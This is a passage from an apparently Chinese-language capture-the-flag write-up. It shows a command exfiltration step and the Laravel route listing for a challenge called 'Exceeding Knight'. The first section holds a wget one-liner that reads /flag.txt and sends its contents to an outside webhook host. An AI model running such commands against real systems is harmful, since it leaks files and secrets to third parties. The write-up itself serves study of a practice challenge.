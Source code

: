 用wget拿Flag
```bash
wget https://webhook.site/af837e63-2038-42cd-b4f7-43da82080c47?flag=`cat /flag.txt`
```

![image](/images/2025/01/BkSzGv3vkg.png)


![image](/images/2025/01/HkY-GDnvJe.png)

### Exceeding Knight

所有routes`routes/web.php`
```php
Route::get('/calculator', [CalculatorController::class, 'index']);
Route::post('/calculator', [CalculatorController::class, 'calculate']); // Handle form submission

Route::get('/convert', [UnitConversionController::class, 'index']);
Route::post('/convert', [UnitConversionController::class, 'convert']);

Route::get('/character-count', [StringManipulationController::class, 'characterCountIndex']);
Route::post('/character-count', [StringManipulationController::class, 'characterCount']);

Route::get('/reverse-string', [StringManipulationController::class, 'reverseStringIndex']);
Route::post('/reverse-string', [StringManipulationController::class, 'reverseString']);

Route::post('/profile', [ProfileController::class, 'index']);
Route::get('/profile/error', [ProfileController::class, 'triggerError']); // Error-triggering route

Route::get('/', function () {
    return view('welcome');
});
```

